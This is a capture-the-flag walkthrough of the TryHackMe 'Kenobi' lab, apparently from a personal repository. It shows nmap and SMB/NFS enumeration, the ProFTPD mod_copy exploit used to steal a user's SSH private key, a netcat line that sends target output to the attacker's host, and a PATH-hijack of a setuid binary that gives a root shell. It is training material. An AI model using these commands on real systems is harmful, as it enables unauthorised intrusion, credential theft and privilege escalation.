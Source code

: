 *2021-08-26*

*kimm3*

# Walkthrough: Kenobi
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/kenobi)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.188.113
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210826143428988.png)

`sudo nmap $IP -Pn -p 445 --script=smb-enum-shares,smb-enum-users`

![nmap-smb](assets/markdown-img-paste-2021082711542957.png)

`smbclient //$IP/anonymous`

![smbclient-get-logtxt](assets/markdown-img-paste-20210827115620291.png)

### Logfile
'log.txt' contains several configurations.

It starts with the generation of a SSH RSA key pair. So we know the location and file names for them:

![ssh-gen](assets/markdown-img-paste-20210827121622981.png)

It also contains the configuration for the proftp daemon, and it has a anonymous user enabled.

![ftpuser](assets/markdown-img-paste-2021082712170594.png)

The server is running as the user kenobi(same as the ssh-keys).

It also contains the samba config.
### NFS
From the inital nmap scan. We have another possibility, the rpcbind service binds to a NFS service.

![nfs](assets/markdown-img-paste-20210827121857507.png)

`sudo nmap $IP -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount`

![nmap-nfs](assets/markdown-img-paste-20210827122105365.png)

The `/var` folder is shared.
## Foothold/Exploit
Plan: Copy kenobis private ssh key using the mod_copy [vulnerability](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/) to the `/var` folder, retrieve it and log in as kenobi.

```
mkdir mnt
sudo mount $IP:/var mnt
ls -la mnt
nc $IP 21
site CPFR /home/kenobi/.ssh/id_rsa
site CPTO /var/tmp/id_rsa
cp mnt/id_rsa creds
chmod 600 creds/id_rsa
ssh -i creds/id_rsa kenobi@$IP
```

![mntfolder](assets/markdown-img-paste-20210827123443854.png)

![ftpcopy](assets/markdown-img-paste-20210827123457513.png)

![sshsuccess-usertxt](assets/markdown-img-paste-20210827123657453.png)
## Privilege Escalation
Search for files with setUID-bit set.

```
#on host
nc -lp 1234 > foundfiles/setUIDsearch.txt

# on target
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null | nc 10.8.210.115 1234
```

![setUIDsearch](assets/markdown-img-paste-20210827124253258.png)

`/usr/bin/menu` is not standard.

![menu](assets/markdown-img-paste-2021082712442919.png)

Seems to be running common commands to show info about target machine.

`strings /usr/bin/menu`

![strings-menu](assets/markdown-img-paste-20210827124402562.png)

It runs curl, ifconfig and uname - with relative paths. We can tamper with the path of kenobi to use this.

```
echo "/bin/bash" > curl
chmod 770 curl
echo PATH=/home/kenobi:$PATH
menu
# choose 1
```

![roottxt](assets/markdown-img-paste-20210827124829946.png)
